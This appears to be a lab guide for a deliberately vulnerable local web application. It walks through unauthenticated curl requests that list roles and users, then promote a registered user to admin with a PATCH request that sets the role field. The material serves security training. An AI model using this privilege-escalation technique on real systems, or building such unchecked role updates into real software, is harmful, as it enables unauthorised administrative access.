

# Lab Setup

```bash
npm run initial-setup
sudo docker compose up --build
```

# Procedure

Find the api documentation at http://localhost:3000/sitemap.xml. It lists all the routes available in the application.

## Roles identification and Review role permissions
Send a request to http://localhost:3000/api/roles

```bash
curl http://localhost:3000/api/roles
```

your output will look like this:
```bash
{"roles":[{"id":1,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":2,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":3,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"},{"id":4,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":5,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":6,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"}]}
```

## Switching to available roles
Create a user at http://localhost:3000/register



Get the users using the following command
```bash
curl http://localhost:3000/api/users
```

Find the details of your user, with your user id. Then run the following command.

```bash
curl -X PATCH http://localhost:3000/api/users/1 --data '{"role":"admin"}'
```

Then log in with that user.

## Have fun ;)
There are many more vulnerabilities. They are not required for the experiment, but you may find them at your leisure.